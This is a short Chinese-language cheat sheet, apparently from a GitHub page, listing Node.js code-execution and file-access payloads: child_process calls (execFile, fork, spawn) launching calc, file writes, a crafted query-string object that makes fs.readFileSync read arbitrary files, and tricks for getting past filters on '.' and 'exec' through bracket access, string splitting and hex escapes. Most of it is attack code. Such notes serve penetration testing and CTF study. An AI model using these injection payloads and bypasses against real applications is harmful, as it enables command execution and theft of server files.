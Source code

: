 * execFile，与execFileSync用法相同

```js
require('child_process').execFile("calc",{shell:true});
```

* fork

```js
require('child_process').fork("calc");
```

* spawn，与spawnSync用法相同

```js
require('child_process').spawn("calc",{shell:true});
```

* fs.writeFile，writeFileSync写文件

```js
require('fs').writeFileSync('input.txt',"dasdsadsa");
//require('fs').writeFile('input.txt',"dasdsadsa",(err)=>{});
```



### fs.readFileSync

使用`fs.readFileSync`进行文件读取，需要满足以下条件

- 有`href`且非空
- 有`origin`且非空
- `protocol` 等于`file:`
- 有`hostname`且等于空(Windows下非空的话会进行远程加载)
- 有`pathname`且非空(读取的文件路径)

```js
?file[href]=a&file[origin]=1&file[protocol]=file:&file[hostname]=&file[pathname]=读取的文件
```

### 绕过过滤

* 过滤`.`

`[]`代替`.`

```java
require('child_process')["exec"]('calc');
```

* 过滤字符串

拼接

```java
require('child_process')["ex"+"ec"]('calc');
```

十六进制

```js
require('child_process')["\x65\x78\x65\x63"]('calc');
```
